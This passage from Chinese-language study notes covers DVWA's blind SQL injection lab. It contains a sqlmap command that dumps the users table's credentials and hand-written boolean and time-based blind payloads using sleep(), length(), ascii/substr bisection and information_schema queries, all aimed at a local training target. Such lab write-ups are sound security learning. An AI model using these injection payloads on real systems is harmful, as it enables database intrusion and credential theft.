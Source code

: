 ![image-20221201194403472](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071441326.png)

```sql
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=95olg0v4v82ig83g1uv5kkscq2" --batch --dbs
--current-db
```

![image-20221201194526112](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071441210.png)

 ![image-20221201194615149](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071441206.png)

```sql
--batch -D dvwa -T users -C "user,password" -dump
```

![image-20221201195144111](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071441611.png)

### medium

> 从中级难度开始，sqlmap就找不出注入点了

**判断注入类型**  字符 or 数字

```sql
-- 若服务器响应时间大于 3 秒，说明 sleep() 函数被执行
1 and sleep(3) # 数字
1' and sleep(3) # 字符
```

![image-20221201221048686](D:\OneDrive - mail.ynu.edu.cn\note\typoranote\DVWA.assets\image-20221201221048686.png)

**获取数据库名**

1. 先获取长度

   ```sql
   id=1 and length(database())=4 # &Submit=Submit
   	or
   id=1 and if(length(database())=4,sleep(3),1) # &Submit=Submit
   ```

   返回exits或发生延时，说明长度为4

   ![image-20221201225400230](D:\OneDrive - mail.ynu.edu.cn\note\typoranote\DVWA.assets\image-20221201225400230.png)

2. 再逐个尝试具体的字符（有单引号的地方都需要被替换，这里使用ASCII码）

   ```sql
   -- 采用二分法的方式逼近答案
   -- >a
   id=1 and ascii(substr(database(),1,1))>97# &Submit=Submit
   -- <z
   id=1 and ascii(substr(database(),1,1))<123# &Submit=Submit
   -- <n
   id=1 and ascii(substr(database(),1,1))<110# &Submit=Submit
   
   -- 时间盲注 形如
   id=1 and if((ascii(substr(database(),1,1))<110),sleep(3),1)# &Submit=Submit

​		以此类推可以得出结果dvwa

**猜表的个数**

```sql
id=1 and (select count(table_name) from information_schema.tables where table_schema=0x64767761)=2# &Submit=Submit
```
